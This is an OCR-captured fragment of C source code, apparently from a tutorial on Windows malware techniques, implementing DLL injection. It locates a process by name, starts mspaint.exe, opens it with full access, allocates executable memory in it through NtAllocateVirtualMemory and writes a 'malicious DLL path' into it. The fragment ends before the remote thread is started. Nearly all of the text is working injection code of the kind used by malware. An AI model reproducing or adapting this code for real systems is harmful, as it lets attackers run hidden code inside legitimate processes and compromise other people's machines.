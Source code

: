 ```

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  HANDLE targetProcess; // Target process handle
  HANDLE remoteThread;  // Remote thread
  LPVOID remoteBuffer;  // Remote buffer for data

  // Obtain handles to kernel32 and ntdll and retrieve function pointer
  HMODULE kernel32Handle = GetModuleHandle("Kernel32");
  HMODULE ntdllHandle = GetModuleHandle("ntdll");
  VOID *loadLibraryFunction = (VOID *)GetProcAddress(kernel32Handle, "LoadLibraryA");

  STARTUPINFOA si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(STARTUPINFOA));
  si.cb = sizeof(STARTUPINFOA);
  const char* process = "mspaint.exe";
  CreateProcessA(NULL, (LPSTR)process,
  NULL, NULL, FALSE, 0, NULL, NULL, &si,&pi);
  int pid = -1;
  pid = findProc(process);

  // Parse process ID
  if (pid <= 0) {
    printf("Process ID not found. Exiting...\n");
    return -1;
  }

  printf("Process ID: %i", pid);
  targetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdllHandle, "NtAllocateVirtualMemory");  

  // Allocate memory buffer in the remote process
  myNtAllocateVirtualMemory(targetProcess, &remoteBuffer, 0, (PULONG)&maliciousLibraryPathLength, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // Copy the malicious DLL path to the remote process
  WriteProcessMemory(targetProcess, remoteBuffer, maliciousLibraryPath, maliciousLibraryPathLength, NULL);

```